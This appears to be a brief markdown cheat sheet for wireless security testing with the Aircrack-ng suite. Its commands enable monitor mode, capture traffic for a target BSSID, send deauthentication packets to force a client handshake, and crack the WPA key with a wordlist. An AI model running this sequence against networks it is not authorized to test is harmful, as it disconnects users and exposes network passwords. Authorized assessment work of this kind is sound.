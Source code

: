 ```yaml
---
description: A quick wireless testing guide using wireless security Aircrack suite.
---
```


# Aircrack Suite

### Airmon-ng for monitor mode:

```text
airmon-ng
airodump-ng wlan0mon
```

### Airodump-ng to scan for BSSIDs:

```text
airodump-ng -c [channel] --bssid [bssid] -w /root/Desktop/ [monitor interface]
airodump-ng -c 1 --bssid 80:2A:A8:C4:B2:39 -w /root/Desktop/ wlan0mon
```

### Aireplay-ng to replay packets:

```text
aireplay-ng -0 2 -a 80:2A:A8:C4:B2:39 -c 64:A2:F9:18:2F:28 wlan0mon
```

### Airecrack-ng to crack captured handshakes for PSKs:

```text
aircrack-ng -a2 -b 80:2A:A8:C4:B2:39 -w [path to wordlist] /root/Desktop/*.cap
```

